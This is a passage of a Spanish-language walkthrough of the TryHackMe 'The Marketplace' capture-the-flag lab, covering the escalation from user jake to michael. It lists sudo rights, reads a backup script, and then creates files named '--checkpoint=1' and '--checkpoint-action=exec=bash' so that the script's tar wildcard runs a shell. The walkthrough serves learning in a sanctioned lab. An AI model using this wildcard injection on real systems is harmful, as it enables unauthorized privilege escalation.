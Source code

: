 Y estamos dentro!, ahora puedes leer la flag user.txt en el directorio personal de michael Luego de esto listé los archivos que tubiesen permisos SUID, pero no encontré ninguno que fuese interesante

```bash
jake@the-marketplace:~$ cat user.txt 
THM{<***CENSORED***>}
```

Entonces viendo que podemos hacer como root siendo jake nos encontramos con algo que puede ser interesante

```bash
jake@the-marketplace:~$ sudo -l
```

```bash
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

podemos ejecutar un script, si leemos el código del script vemos un potencial vector de ataque, un wiledcard (*), así que se viene privileges scalation con wiledcard

```bash
jake@the-marketplace:~$ cat /opt/backups/backup.sh
```
```bash
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

En este script está usando tar diciendole que englobe todo lo disponible en el directorio actual con el wiledcard, así que nos aprobechamos de 2 parametros que tiene tar con los que se pueden ejecutar comandos para crear los siguientes archivos:

```bash
jake@the-marketplace:/opt/backups~$ echo "" > --checkpoint=1 && echo "" > --checkpoint-action=exec=bash
```
```bash
jake@the-marketplace:/opt/backups~$ ls
backup.sh   backup.tar  '--checkpoint=1'  '--checkpoint-action=exec=bash'
```

esto ará que tar tome los archivos como parametros del mismo y ejecute la instrucción que se le indique (en este caso exec=bash) luego de esto eliminamos el archivo backup.tar

```bash
jake@the-marketplace:/opt/backups~$ rm backup.tar
```

esto para evitar el siguiente error:

```bash
jake@the-marketplace:/opt/backups$ sudo -u michael ./backup.sh
Backing up files...
tar: /opt/backups/backup.tar: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
```
